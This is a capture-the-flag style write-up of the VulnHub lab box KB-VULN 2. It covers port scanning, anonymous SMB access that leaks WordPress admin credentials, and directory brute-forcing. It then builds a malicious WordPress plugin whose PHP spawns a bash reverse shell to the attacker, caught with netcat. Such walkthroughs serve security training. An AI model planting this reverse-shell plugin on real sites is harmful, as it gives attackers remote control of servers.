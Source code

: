 ```yaml
---
title: Vulnhub - KB-VULN 2
description: My writeup on KB-VULN 2 box.
categories:
 - vulnhub
tags: vulnhub smb wordpress docker
---
```


![](https://i.imgur.com/BYdU05H.png)

You can find the machine there > [KB-VULN 2](https://www.vulnhub.com/entry/kb-vuln-2,562/){:target="_blank"}

## Summary

Time for the part 2 haha :P Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.20
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 15:44 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00048s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:56:FE:62 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.54 seconds
$ nmap -p 21,22,80,139,445 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 15:44 EEST
Nmap scan report for kb-server.zte.com.cn (192.168.1.20)
Host is up (0.00039s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Let's start with SMB enumeration, let's list the shares.

```
$ smbmap -H $ip
[+] Guest session   	IP: 192.168.1.20:445	Name: kb-server.zte.com.cn                              
        Disk                                        Permissions	Comment
	----                                               -----------	-------
	Anonymous                                         	READ ONLY	  OPEN YOUR EYES!
	IPC$                                              	NO ACCESS	  IPC Service (Samba Server 4.7.6-Ubuntu)
```

Let's connect to anonymous & download the file.

```
$ smbclient //$ip/Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: > ls
  .                                   D        0  Thu Sep 17 13:58:56 2020
  ..                                  D        0  Wed Sep 16 13:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 13:58:56 2020

		14380040 blocks of size 1024. 8275680 blocks available
smb: > get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (83809.6 KiloBytes/sec) (average 83809.7 KiloBytes/sec)
smb: > exit
```

`backup.zip` has a .txt file and a wordpress installation folder. The .txt has some creds in:

```
$ cat remember_me.txt 
Username:admin
Password:MachineBoy141
```

Let's check port 80 now, we can start with a `dirb` scan.

```
$ dirb http://192.168.1.20/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 24 15:58:13 2020
URL_BASE: http://192.168.1.20/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.20/ ----
+ http://192.168.1.20/index.html (CODE:200|SIZE:10918)                                                                                                                                  
+ http://192.168.1.20/server-status (CODE:403|SIZE:277)                                                                                                                                 
==> DIRECTORY: http://192.168.1.20/wordpress/
```

Nice! a wordpress site, now makes sense. Takes time to load and we endup with an error message probably virtual hosts we can see on URL this:

![](https://i.imgur.com/IW2itrt.png)

Let's add it to `/etc/hosts`:

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.20    kb.vuln
```

Now we can head to `/wp-admin` and login with the creds we found before. `admin:MachineBoy141`

## Shell as www-data

Now i'll show you a way to make a custom malicious plugin for reverse shell! This will be our plugin:

```
<?php
   /*
   Plugin Name: pwned
   Version: 6.9
   Author: whoknows
   */

system("bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'");
?>
```

Let's zip it:

```
$ zip plugin.zip shell.php 
  adding: shell.php (deflated 11%)
```

Follow my steps:

![](https://i.imgur.com/H5VaTi8.png)

![](https://i.imgur.com/av4IDKC.png)

![](https://i.imgur.com/z6baZHl.png)

![](https://i.imgur.com/LlNDDNP.png)

Once you press active plugin we get a reverse shell back! :D

```
$ nc -lvp 5555
listening on [any] 5555 ...

www-data@kb-server:/var/www/html/wordpress/wp-admin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@kb-server:/var/www/html/wordpress/wp-admin$ 
```
